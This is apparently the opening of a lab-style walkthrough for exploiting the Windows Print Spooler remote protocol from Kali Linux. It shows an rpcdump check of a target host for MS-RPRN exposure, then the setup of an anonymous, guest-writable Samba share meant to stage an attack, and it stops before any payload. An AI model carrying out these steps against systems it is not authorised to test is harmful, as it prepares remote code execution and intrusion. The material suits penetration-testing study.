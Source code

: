 ## Check target is vulnerable

First check target has printer spooler running:

```text
┌──(root💀kali)-[~/cve]
└─# rpcdump.py @192.168.0.50 | grep MS-RPRN
Protocol: [MS-RPRN]: Print System Remote Protocol 
```

It is, let's go!

## Set up anonymous share

First check SAMBA is not running:

```text
┌──(root💀kali)-[~]
└─# systemctl status smbd nmbd
● smbd.service - Samba SMB Daemon
     Loaded: loaded (/lib/systemd/system/smbd.service; disabled; vendor preset: disabled)
     Active: inactive (dead)
       Docs: man:smbd(8)
             man:samba(7)
             man:smb.conf(5)

● nmbd.service - Samba NMB Daemon
     Loaded: loaded (/lib/systemd/system/nmbd.service; disabled; vendor preset: disabled)
     Active: inactive (dead)
       Docs: man:nmbd(8)
             man:samba(7)
             man:smb.conf(5)
```

Move conf file to safety

```text
┌──(root💀kali)-[~]
└─# mv /etc/samba/smb.conf /etc/samba/smb.conf.bak
```

Create new samba conf file:

```text
┌──(root💀kali)-[~/cve]
└─# cat /etc/samba/smb.conf
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /tmp
    guest ok = yes
    read only = no
    browsable = yes
    force user = smbuser
    force group = smbgroup
    public = yes
```
